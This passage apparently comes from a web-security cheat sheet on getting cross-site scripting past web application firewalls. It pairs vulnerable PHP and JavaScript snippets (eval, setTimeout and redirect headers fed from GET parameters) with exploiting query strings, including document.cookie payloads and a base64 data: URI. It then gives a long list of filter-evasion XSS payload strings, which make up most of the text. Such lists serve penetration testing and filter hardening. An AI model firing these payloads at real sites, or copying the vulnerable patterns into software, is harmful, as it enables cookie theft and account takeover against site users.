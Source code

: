 &#X00003C;
&#X000003C;
- \x3c
- \x3C
- \u003c
- \u003C

### Methods to Bypass WAF – Cross-Site Scripting¶
#### General issues¶
##### Stored XSS¶
If an attacker managed to push XSS through the filter, WAF wouldn’t be able to prevent the attack conduction.
##### Reflected XSS in JavaScript¶
Example:
<script> ... setTimeout(\\"writetitle()\\",$\_GET\[xss\]) ... </script>

Exploitation:
/?xss=500); alert(document.cookie);//

##### DOM-based XSS¶
Example:
<script> ... eval($\_GET\[xss\]); ... </script>

Exploitation:
/?xss=document.cookie

##### XSS via request Redirection¶
Vulnerable code:
...
header('Location: '.$_GET['param']);
...

As well as:
...
header('Refresh: 0; URL='.$_GET['param']);
...

This request will not pass through the WAF:
/?param=<javascript:alert(document.cookie>)

This request will pass through the WAF and an XSS attack will be conducted in certain browsers:
/?param=<data:text/html;base64,PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4=

#### WAF ByPass Strings for XSS¶

- <Img src = x onerror = "javascript: window.onerror = alert; throw XSS">
- <Video> <source onerror = "javascript: alert (XSS)">
- <Input value = "XSS" type = text>
- <applet code="javascript:confirm(document.cookie);">
- <isindex x="javascript:" onmouseover="alert(XSS)">
- "></SCRIPT>”>’><SCRIPT>alert(String.fromCharCode(88,83,83))</SCRIPT>
- "><img src="x:x" onerror="alert(XSS)">
- "><iframe src="javascript:alert(XSS)">
- <object data="javascript:alert(XSS)">
- <isindex type=image src=1 onerror=alert(XSS)>
- <img src=x:alert(alt) onerror=eval(src) alt=0>
- <img  src="x:gif" onerror="window['al\u0065rt'](0)"></img>
- <iframe/src="data:text/html,<svg onload=alert(1)>">
- <meta content="&NewLine; 1 &NewLine;; JAVASCRIPT&colon; alert(1)" http-equiv="refresh"/>
- <svg><script xlink:href=data&colon;,window.open('https://www.google.com/')></script
- <meta http-equiv="refresh" content="0;url=javascript:confirm(1)">
- <iframe src=javascript&colon;alert&lpar;document&period;location&rpar;>
- <form><a href="javascript:\u0061lert(1)">X